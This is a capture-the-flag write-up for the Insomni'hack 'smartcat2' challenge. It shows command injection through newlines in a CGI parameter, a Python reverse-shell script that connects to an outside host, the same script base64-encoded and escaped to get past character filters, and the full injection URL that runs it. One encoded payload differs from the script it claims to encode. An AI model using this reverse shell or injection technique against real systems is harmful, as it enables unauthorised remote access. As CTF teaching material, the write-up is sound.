 # Insomni'hack : smartcat2

#### Author: Wh1t3Fox

**Description**:
> This challenge was an extension of the smartcat1. This time we needed to access a file in /home/smartcat.

The first thing we tried to do was view the contents of the /home/smartcat directory. We were able
to accomplish this by modifying the CDPATH environment variable with:

    http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=google.com%0ACDPATH=/home/smartcat%0Acd%0Als

This revealed there were two files: flag2 and readflag.

We tried to cat both files, however, we did not have read permission for flag2 and readflag was an executible. When running strings on readflag we could read the following message:

    Almost there... just trying to make sure you can execute arbitrary commands....
    Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
    Do not include the quotes. Each part is a different line.

This was a definite sign that we needed to get a shell on the remote machine.

We came up with a payload to gain a reverse shell, but we struggled to find a way to actually execute the code with all of the character restrictions. We came up with the following code to get a reverse bash shell:

    import socket
    import subprocess
    import os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("wh1t3fox.net",1337))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash","-i"])

To eliminate invalid characters and make the payload smaller we compressed the code and then converted it to base64. This lead to our final payload:

    exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjAuMC4xIiwxMjM0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzc2giLCItaSJdKTs='.decode('base64'))

This payload only had 2 invalid characters which were *'('*. We discovered in bash we could print  \x28 which would translate to the '(' character. The only issue now was how to deliver the payload on the server.

Using more cat tricks we realized we could cat a string to a file and then pass the file to the python interpreter for execution.

    python>/tmp/exploit.py<<EOF
    print"exec\x28'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIndoMXQzZm94Lm5ldCIsMTMzNykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL2Jhc2giLCItaSJdKTs='.decode\x28'base64'))"
    EOF
    python</tmp/exploit.py

Our final exploit was:

    http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=google.com%0Apython>/tmp/exploit.py<<EOF%0Aprint"exec\x28'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIndoMXQzZm94Lm5ldCIsMTMzNykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL2Jhc2giLCItaSJdKTs='.decode\x28'base64'))"%0AEOF%0Apython</tmp/exploit.py

After we launched the url we received a reverse shell on the server and executed the readflag file allowing us to retrieve the flag.

    INS{shells_are _way_better_than_cats}
